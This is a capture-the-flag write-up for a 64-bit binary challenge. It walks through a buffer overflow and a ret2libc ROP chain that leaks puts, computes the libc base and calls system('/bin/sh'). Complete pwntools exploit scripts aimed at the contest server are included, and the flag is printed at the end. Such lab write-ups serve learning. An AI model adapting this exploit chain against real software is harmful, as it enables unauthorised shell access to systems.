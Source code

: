 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day16_description.png">

First, I decompiled the binary in dogbolt:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_16_info.png">

It is a simple program, but there is a buffer overflow at `fgets(&buf, 0x80, stdin);`, where 128 bytes are read inside `buf`, which is of type void. There is no win function, so I used ROP. The file is also a 64 bit executable, which is important to keep in mind. First I tried to find the correct offset using the same approach as in the previous binary challenge ([day10](https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/Day10/flag_from_wish.md)). Basically 
I used `cyclic_find` to which I added 8 bytes (size of RBP) and the final offset was `72`. Alright, now my idea was to leak the puts address, which then will help me calculate the base address of libc. This is needed since ASLR is enabled. Since this was a 64 bit executable (remember!?) I also need to be carefull how parameters are passed to functions. Basically, a ROP gadget is needed to pop the value of RDI (thought which function parameters are passed). To find one, I used:

```bash
ROPgadget --binary main | grep "pop rdi"
```

Now, I just need to put the value I want to print (in this case is the memory address of puts) in RDI and then put the function call on the stack. Finally, I need to re-run the main function, so I can do the actual exploit and get the shell. Here is the exploit described so far:
```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 

rop = ROP(elf) 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
puts_got = elf.got['puts']  
main_addr = 0x4011ee  

payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)
```

Sending the payload now, a line is returned which shows us what I entered and at the end the leaked puts address, so it is important to parse this correctly to get the correct address. I definitely made my approach more complicated than it needed to be:

```python
p = process('./main')          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      

output = p.recvline()  
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
raw_bytes = bytes.fromhex(hex_output.replace(' ', '')) 

search_sequence = b'\x96\x11\x40'
position = raw_bytes.find(search_sequence)
result = raw_bytes[position + len(search_sequence):]
result_without_last_byte = result[:-1]

print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')

```

I transformed the data to hex and look at the bytes after the `96 11 40` sequence which is the address of pop_rdi_ret, but in little endian. Then I just deleted the last byte which is the `\n` character and transformed the address to big endian and then make it an integer value.

Now, I can calculate the value of the base libc by subtracting from the memory address of puts, the offset of puts. With the base libc I can calculate the memory address of the `system` function and the `\bin\sh` string:

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

```

Finally, I crafted the exploit in a similar manner as for the first step, with the only difference being the addition of a ret gadget, which is used for stack alignment.

```python
ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 

p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 
```

Then I get a shell and thus the flag if I connect remote. Below is my final complete script with some additional prints:

```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 
context.log_level='debug'

io = process(elf.path)

rop = ROP(elf) 

# Attach gdb to the running process
#gdb.attach(io, gdbscript=""" set environment LD_LIBRARY_PATH ./libc.so.6 """)

host = "ctf.csd.lol"
port = 2020 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
print("puts_p in Hex:", hex(puts_plt))
puts_got = elf.got['puts']  
print("puts_got in Hex:", hex(puts_got))
main_addr = 0x4011ee         


payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)                


#p= process('./main')
p = remote(host,port)          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      



output = p.recvline()  
print("TESTTT "+ output.decode(errors='ignore'))
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
print("TESTTT " + hex_output)


raw_bytes = bytes.fromhex(hex_output.replace(' ', ''))  

# Take the bytes after pop_rdi_ret address
search_sequence = b'\x96\x11\x40'

position = raw_bytes.find(search_sequence)

result = raw_bytes[position + len(search_sequence):]
print(result)

result_without_last_byte = result[:-1]
print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')
print(leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
print(libc.symbols['puts'])
print("libc_base: " + str(libc_base))

system_addr = libc_base + libc.symbols['system']
print("system_addr: " + str(system_addr))

bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
print("bin_sh_addr : " + str(bin_sh_addr ))

ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 


p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 

```

An important note is to remember to use `pwnutils` for the local exploit when the libc is given, I personally did not know that and, I had the correct script locally, but of course it didn't work because it's not loading the correct libc. So, just putting the executable and libc file in the same directory is not enough !


`csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`
